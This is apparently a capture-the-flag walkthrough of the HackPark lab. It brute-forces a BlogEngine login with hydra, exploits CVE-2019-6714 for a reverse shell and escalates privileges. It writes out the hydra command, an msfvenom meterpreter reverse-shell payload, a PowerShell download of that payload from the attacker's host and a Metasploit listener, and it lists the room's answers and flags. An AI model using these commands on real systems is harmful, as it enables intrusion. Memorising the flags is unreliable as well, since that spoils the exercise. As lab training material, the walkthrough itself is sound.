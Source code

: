 # HACK PARK

## BASIC INFO
```
export IP=10.10.58.41

80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T06:22:06+00:00; -39s from scanner time.
```

## USING HYDRA TO BRUTE-FORCE A LOGIN

> - **What request type is the Windows website login form using?**
>> POST

In order to run hydra we need to supply the argument in urlencoded format. Refer to [this](urlencode.py) script for how to encode with urllib.

Running the following command will gives us the password.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/Account/login.aspx:ctl00%24MainContent%24LoginUser%24UserName=admin&__EVENTVALIDATION=%2FR%2BmdTL%2FGWcCAUXLZ%2FHn36sbZ2AnlRTa1fQjpaUiDVremHkUfE%2F2wYoO%2B1H9E0WKYBtgbkGAfxjZX9etzDTsNtNchnNX5aRyrYyhc9kwC9IrsM%2FZmOl5mQtb5UfhN36p7hpfAhJ5vR1ehq8TJreppnTAJqCO9Dhk7yfxQz7gDuzBqlcj&__VIEWSTATE=9o3SmBZrJRQzfy7kkCOyg1NKfTXN9SunW5hHb0JM5r%2Fubhb%2FsUbr8XKtIkHyfD1mLN474Sg%2BpPuXWdMiqPAaX5eeuWiEmcjo%2FoRLYfMAEBQY7TmjTLJWpDM8pjhAtbQj0uT%2FeK%2BfW5Q5bWMVHOQJG1VsLSZk4UlrOHv0rfoxOl6M2svR&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=LoginButton:Login failed"

```

> Password = 1qaz2wsx

## COMPROMISE THE MACHINE

> - **Now you have logged into the website, are you able to identify the version of the BlogEngine?**
>> 3.3.6.0

It is under About page.

> - **Use the exploit database archive to find an exploit to gain a reverse shell on this system.**
>> CVE-2019-6714

> - **Using the public exploit, gain initial access to the server.\
Who is the webserver running as?**
>> iis apppool\blog

Referring to the explanation in [this](PostView.ascx) script.\
First we host a web server with `python3 -m http.server`\
Then on the web page we navigate to post, edit post, upload files and upload [PostView.ascx](PostView.ascx).\
We need to set up a listener on our host machine as well with the command `nc -lnvp 9001`\
After that, we navigate to the URL `http://$IP/?theme=../../App_Data/files` and we should get a reverse shell on our host machine.

## WINDOWS PRIVILEGE ESCALAITON

> - **Generate a payload with msfvenom**
>> No answer needed

To generate a payload use the command below
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9002 -f exe -o shell.exe
```

Then we upload it to the remote machine.\
On the remote machine.
```
cd %TEMP%
powershell -c "Invoke-WebRequest http://10.8.8.177/shell.exe -OutFile shell.exe"
``` 
*Tip: It's common to find C:\Windows\Temp is world writable!*


Then we set up a listener on our host machine with msfconsole.
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9002
run
```

Back on the remote machine, we execute the following command to run shell.exe.
```
powershell -c "Start-Process shell.exe"
```

Then we should get a meterpreter on msfconsole now.

> - **What is the OS version of this windows machine?**
>> Windows 2012 R2 (6.3 Build 9600)

> - **What is the name of the abnormal service running?**
>> WindowsScheduler.exe

> - **What is the name of the binary you're supposed to exploit?**
>> Message.exe

> - **Using this abnormal service, escalate your privileges!\
What is the user flag (on Jeffs Desktop)?**
>> 759bd8af507517bcfaede78a21a73e39

> - **What is the root flag?**
>> 7e13d97f05f7ceb9881a3eb3d78d3e72

## PRIVILEGE ESCALATION WITHOUT METASPLOIT

Using msfvenom again set the payload to `windows/shell_reverse_tcp`\
Then upload it with powershell as above.\
After we got a shell, upload winPEAS.bat the same way.

> - **Using winPeas, what was the Original Install time? (This is date and time)**
>> 8/3/2019, 10:43:23 AM

![badges](../../../badges/dianchia.png)